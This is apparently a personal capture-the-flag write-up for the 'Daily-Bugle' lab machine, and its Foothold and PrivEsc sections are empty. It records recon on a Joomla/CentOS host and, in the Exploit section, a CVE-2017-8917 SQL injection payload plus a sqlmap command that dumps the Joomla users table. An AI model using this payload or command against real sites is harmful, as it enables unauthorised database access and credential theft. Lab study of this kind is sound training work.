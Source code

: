 # Daily-Bugle Writeup
Name: Daily-Bugle
Date:  23/09/2022
Difficulty:  Hard
Goals:  
- OSCP 2/5 Medium Machines with or without walkthough if need
- Practice SQLi revision from the morning
Learnt:
- I need to and have scheduled in a python scripting exploits day 

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](Screenshots/ping.png)


[Joomla](https://www.joomla.org/) php 5.6.4
CentOS

![](www-webroot.png)

```
eaa83fe8b963ab08ce9ab7d4a798de05 
f7lrn1l0vo1vv9cmmqqc42d6l4
```

![](misfornatecookie.png)

## Exploit

Blind-Based Boolean SQLi 
![780](cve-2017-8917.png)


From looking [brainwrf](https://github.com/brianwrf/Joomla3.7-SQLi-CVE-2017-8917/blob/master/CVE-2017-8917.py)
```
/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(1,concat(1,user()),1)
```
![](meanwhile.png)

Scripting Python day is somewhat long over due. I have done lots of l33tcode questions,  but for some reason the request library and solving problems by requesting stuff has yet, but soon stick..

```bash
sqlmap -u "http://10.10.137.208/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomla -T '#__users' --dump
```

![](johan.png)

`#__users`



## Foothold

## PrivEsc

      
